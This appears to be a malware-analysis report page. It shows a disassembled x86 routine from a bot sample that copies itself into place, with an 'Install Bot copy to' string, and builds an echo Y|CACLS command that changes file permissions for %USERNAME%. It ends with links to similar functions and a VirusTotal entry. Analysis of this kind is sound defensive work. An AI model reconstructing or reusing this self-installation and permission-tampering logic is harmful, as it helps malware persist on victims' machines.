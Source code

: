 call fcn.0040284c
lea eax,[ebp-0x168]
push 0x428710
push eax
lea ecx,[ebp-0x130]
call fcn.00408cb4
lea ecx,[ebp-0x264]
push ecx
lea ecx,[ebp-0x14c]
push ecx
mov ecx,eax
mov byte[ebp-4],0x1a
call fcn.00402a68
add esp,0x10
mov esi,eax
lea edi,[ebp-0x130]
mov byte[ebp-4],0x1b
call fcn.00401c6b
xor esi,esi
push ebx
inc esi
push esi
lea ecx,[ebp-0x14c]
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x168]
mov byte[ebp-4],0x18
call fcn.00401cd0
cmp dword[ebp-0x11c],0x10
mov eax,dword[ebp-0x130]
jae 0x406f07
mov eax,edi
push esi
push eax
lea eax,[ebp-0x114]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileA]
sub esp,0x1c
mov eax,esp
mov dword[ebp-0x460],esp
push str.Install___Bot_copy_to_
push eax
lea edi,[ebp-0x130]
call fcn.00408c43
pop ecx
pop ecx
call fcn.0040284c
lea eax,[ebp-0x168]
push str._c_echo_YCACLS__
push eax
call fcn.00408c43
push str.___P___USERNAME_:R_
push eax
lea eax,[ebp-0x14c]
push eax
mov byte[ebp-4],0x1c
call fcn.004029e3
add esp,0x14
cmp dword[eax+0x14],0x10
jb 0x406f6b
mov eax,dword[eax]
push ebx
push ebx

[similar_1_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.004172d1@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.0043883a@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.0040495d@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.00420823@b3771987fba16f4fba07d1109ec72c76
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6